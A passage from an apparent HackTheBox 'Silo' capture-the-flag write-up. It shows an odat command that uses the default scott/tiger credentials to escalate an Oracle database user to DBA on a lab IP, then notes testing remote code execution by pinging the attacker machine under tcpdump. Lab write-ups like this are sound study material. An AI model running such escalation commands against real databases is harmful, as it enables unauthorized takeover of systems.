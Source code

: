 ![db-privs-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Silo/img/db-privs-16.png)

We can see that we have the `CREATE/EXECUTE ANY PROCEDURE` privilege, We can leverage this to give our database user admin roles using:

```bash
odat privesc -s 10.129.95.188 -U scott -P tiger -d XE --dba-with-create-any-trigger
```

![add-dba-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Silo/img/add-dba-17.png)

Now we can use the `--sysdba` switch to perform the operation with db-admin privileges. 

This time I decided to change the command syntax for the RCE because I was having issues with the previous command and I wanted to verify the success of the RCE, so I chose to ping my attack machine while capturing the network traffic using:

```bash
tcpdump -i tun0 icmp
```
